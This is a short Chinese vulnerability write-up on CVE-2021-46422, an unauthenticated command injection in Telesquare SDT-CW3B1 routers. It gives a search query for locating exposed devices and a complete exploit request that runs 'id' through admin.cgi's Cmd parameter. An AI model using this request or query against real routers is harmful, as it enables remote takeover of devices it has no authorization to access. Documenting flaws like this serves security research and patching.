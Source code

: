# Telesquare SDT-CW3B1无线路由器admin.cgi 远程命令执行漏洞(CVE-2021-46422)

# 一、漏洞简介
Telesquare SDT-CW3B1是韩国Telesquare公司的无线路由器产品。Telesquare SDT-CW3B1 1.1.0 版本存在操作系统命令注入漏洞。远程攻击者可利用该漏洞在无需任何身份验证的情况下执行操作系统命令。

# 二、影响版本
+ Telesquare SDT-CW3B1 1.1.0

# 三、资产测绘
+ hunter`app.name=="Telesquare Router"`
+ 特征

![1700233053166-8eb3438f-a051-4482-9c4d-133f3bf80241.png](./img/hUm6GNLeu2yN1SN-/1700233053166-8eb3438f-a051-4482-9c4d-133f3bf80241-391808.png)

# 四、漏洞复现
```plain
GET /cgi-bin/admin.cgi?Command=sysCommand&Cmd=id HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![1700235255810-240921a9-b67b-4b8f-bfbc-20a922f14f97.png](./img/hUm6GNLeu2yN1SN-/1700235255810-240921a9-b67b-4b8f-bfbc-20a922f14f97-240162.png)



> 更新: 2024-02-29 23:57:13  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qig0nr6ohmhnx304>